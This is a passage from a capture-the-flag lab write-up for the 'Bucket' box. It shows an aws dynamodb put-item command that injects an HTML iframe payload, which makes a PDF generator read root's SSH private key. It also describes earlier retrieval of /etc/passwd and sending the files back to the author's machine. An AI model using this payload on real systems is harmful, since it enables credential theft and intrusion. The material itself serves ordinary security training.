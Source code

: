 ![A PDF file with the contents of /etc/passwd in it](/assets/img/bucket-5-passwd.png)

After getting the correct file I opened it and found that it did indeed contain the contents of `/etc/passwd`.

### Getting `root`'s SSH key

```
┌──(zweilos㉿kali)-[~/htb/bucket]
└─$ aws dynamodb put-item \    
    --table-name alerts \
    --item '{                
        "title": {"S": "Ransomware"},                                           
        "data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}
      }' \                                                                 
    --return-consumed-capacity TOTAL --endpoint-url http://s3.bucket.htb
```

I again added an item to the database, this time trying to see if I could get `root`'s SSH private key.  

```
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

I got back the same result message about consuming units.  I went through the same steps as with the `/etc/passwd` PDF using `curl`, Python, and `wget` to create, host, and exfiltrate the file back to my machine.
